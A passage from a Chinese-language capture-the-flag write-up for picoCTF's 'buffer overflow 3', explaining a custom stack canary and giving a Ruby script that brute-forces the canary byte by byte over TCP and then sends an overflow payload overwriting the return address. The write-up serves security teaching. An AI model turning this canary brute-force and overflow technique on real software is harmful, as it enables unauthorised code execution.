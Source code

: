 再说一嘴: 这里能够写入参数的原因是因为这些参数是通过栈来传递的, 
也就是说, `func(arg)`就像是这样: 

```asm
PUSH arg
CALL func
```

来调用的. 

#### buffer overflow 3
题目说自己有一个栈保护检查, 也就是CANARY检查, 
实际上并没有真正的检查, 只是一种类似的思想而已. 

这个思想就是, 既然你想要通过写爆栈来干坏事, 
那么程序就在每个栈末尾留一个保护字串, 假如保护字串被修改了, 
那么拒绝跳转, 并告诉你干坏事是不对的. 就像是以前很多的电子产品, 
有一个撕毁不保修的封条. 假如你撕坏了保修封条, 那么恭喜, 
维修商就不会为你维修啦. 

但是我们可以伪造一个和这个封条一毛一样的假封条, 
在拆开之后(栈溢出的时候), 再把假封条贴回去. 具体的做法就是: 

```ruby
require "socket"
require "colorize"

URL = "saturn.picoctf.net"
PORT = 49518

CHARSET = ("a".."z").to_a + ("0".."9").to_a + ("A".."Z").to_a
LEN = CHARSET.length

# 测试函数
def connect(message)
  # TCP 连接到服务器
  s = TCPSocket.new(URL, PORT)
  s.puts message
  res = ""
  while (get = s.gets)
    res << get
  end
  # 返回服务器的输出
  return res
end

# 按位爆破
canary = ""
# 题目里面说总长度是4
4.times do |i|
  # 每一个字符进行一个爆破
  LEN.times do |j|
    # puts (temp_canary = canary + CHARSET[j])
    temp_canary = canary + CHARSET[j]
    res = connect("#{64 + i + 1}\n" + "a" * 64 + temp_canary)
    # 成功的样子
    if res.match(/Flag/)
      canary = temp_canary
      puts canary.colorize(:green)
      break
    end
  end
end

puts connect("100\n"+"a" * 64 + canary + "a" * 16 + "\x00\x00\x00\x00\x08\x04\x93\x36".reverse)

```